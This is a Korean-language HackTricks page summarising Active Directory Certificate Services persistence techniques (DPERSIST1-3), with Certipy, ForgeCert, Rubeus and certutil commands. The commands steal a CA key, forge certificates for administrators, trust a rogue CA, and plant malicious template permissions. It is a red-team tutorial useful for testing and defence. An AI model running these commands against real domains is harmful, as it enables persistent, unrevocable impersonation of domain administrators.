 # AD CS Domain Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**이것은 [https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)에서 공유된 도메인 지속성 기술의 요약입니다.** 추가 세부정보는 해당 링크를 확인하세요.

## 도난당한 CA 인증서로 인증서 위조하기 - DPERSIST1

인증서가 CA 인증서인지 어떻게 알 수 있나요?

여러 조건이 충족되면 인증서가 CA 인증서임을 확인할 수 있습니다:

- 인증서는 CA 서버에 저장되며, 개인 키는 머신의 DPAPI 또는 운영 체제가 지원하는 경우 TPM/HSM과 같은 하드웨어로 보호됩니다.
- 인증서의 발급자(Issuer) 및 주체(Subject) 필드가 CA의 고유 이름과 일치합니다.
- "CA Version" 확장이 CA 인증서에만 존재합니다.
- 인증서에는 확장 키 사용(EKU) 필드가 없습니다.

이 인증서의 개인 키를 추출하기 위해 CA 서버의 `certsrv.msc` 도구가 내장 GUI를 통해 지원되는 방법입니다. 그럼에도 불구하고 이 인증서는 시스템 내에 저장된 다른 인증서와 다르지 않으므로, [THEFT2 기술](certificate-theft.md#user-certificate-theft-via-dpapi-theft2)과 같은 방법을 사용하여 추출할 수 있습니다.

인증서와 개인 키는 다음 명령어를 사용하여 Certipy로도 얻을 수 있습니다:
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
CA 인증서와 그 개인 키를 `.pfx` 형식으로 획득한 후, [ForgeCert](https://github.com/GhostPack/ForgeCert)와 같은 도구를 사용하여 유효한 인증서를 생성할 수 있습니다:
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
{% hint style="warning" %}
인증서 위조를 목표로 하는 사용자는 Active Directory에서 인증할 수 있는 활성 상태여야 하며, 이 과정이 성공하기 위해서는 필수적입니다. krbtgt와 같은 특별 계정에 대한 인증서를 위조하는 것은 효과적이지 않습니다.
{% endhint %}

이 위조된 인증서는 **유효** 기간이 끝나는 날까지 **루트 CA 인증서가 유효한 한** (보통 5년에서 **10년 이상**) 유효합니다. 또한 **기계**에 대해서도 유효하므로, **S4U2Self**와 결합하면 공격자는 **CA 인증서가 유효한 한** 어떤 도메인 기계에서든 **지속성을 유지할 수 있습니다**.\
게다가, 이 방법으로 **생성된 인증서**는 CA가 이를 인식하지 못하므로 **취소할 수 없습니다**.

## 악성 CA 인증서 신뢰 - DPERSIST2

`NTAuthCertificates` 객체는 Active Directory (AD)가 사용하는 `cacertificate` 속성 내에 하나 이상의 **CA 인증서**를 포함하도록 정의됩니다. **도메인 컨트롤러**의 검증 과정은 인증하는 **인증서**의 발급자 필드에 지정된 **CA**와 일치하는 항목을 `NTAuthCertificates` 객체에서 확인하는 것입니다. 일치하는 항목이 발견되면 인증이 진행됩니다.

공격자는 이 AD 객체에 대한 제어 권한이 있는 경우, `NTAuthCertificates` 객체에 자체 서명된 CA 인증서를 추가할 수 있습니다. 일반적으로 **Enterprise Admin** 그룹의 구성원과 **도메인 관리자** 또는 **포리스트 루트 도메인**의 **관리자**만 이 객체를 수정할 수 있는 권한이 부여됩니다. 그들은 `certutil.exe`를 사용하여 `NTAuthCertificates` 객체를 편집할 수 있으며, 명령어는 `certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126`입니다. 또는 [**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool)을 사용할 수 있습니다.

이 기능은 ForgeCert를 사용하여 인증서를 동적으로 생성하는 이전에 설명된 방법과 함께 사용할 때 특히 관련성이 높습니다.

## 악의적인 잘못된 구성 - DPERSIST3

AD CS 구성 요소의 **보안 설명자 수정**을 통한 **지속성** 기회는 풍부합니다. "[Domain Escalation](domain-escalation.md)" 섹션에 설명된 수정 사항은 권한이 상승된 공격자에 의해 악의적으로 구현될 수 있습니다. 여기에는 다음과 같은 민감한 구성 요소에 "제어 권한" (예: WriteOwner/WriteDACL 등)을 추가하는 것이 포함됩니다:

- **CA 서버의 AD 컴퓨터** 객체
- **CA 서버의 RPC/DCOM 서버**
- **`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`** 내의 모든 **하위 AD 객체 또는 컨테이너** (예: 인증서 템플릿 컨테이너, 인증 기관 컨테이너, NTAuthCertificates 객체 등)
- 기본적으로 또는 조직에 의해 AD CS를 제어할 권한이 위임된 **AD 그룹** (예: 내장된 Cert Publishers 그룹 및 그 구성원)

악의적인 구현의 예로는 도메인에서 **상승된 권한**을 가진 공격자가 기본 **`User`** 인증서 템플릿에 **`WriteOwner`** 권한을 추가하는 경우가 있습니다. 이를 이용하기 위해 공격자는 먼저 **`User`** 템플릿의 소유권을 자신으로 변경합니다. 그 후, **`mspki-certificate-name-flag`**를 **1**로 설정하여 **`ENROLLEE_SUPPLIES_SUBJECT`**를 활성화하여 사용자가 요청에 주체 대체 이름을 제공할 수 있도록 합니다. 이후 공격자는 **템플릿**을 사용하여 **도메인 관리자** 이름을 대체 이름으로 선택하고, 획득한 인증서를 DA로서 인증에 사용할 수 있습니다.


{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나, **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.

</details>
{% endhint %}
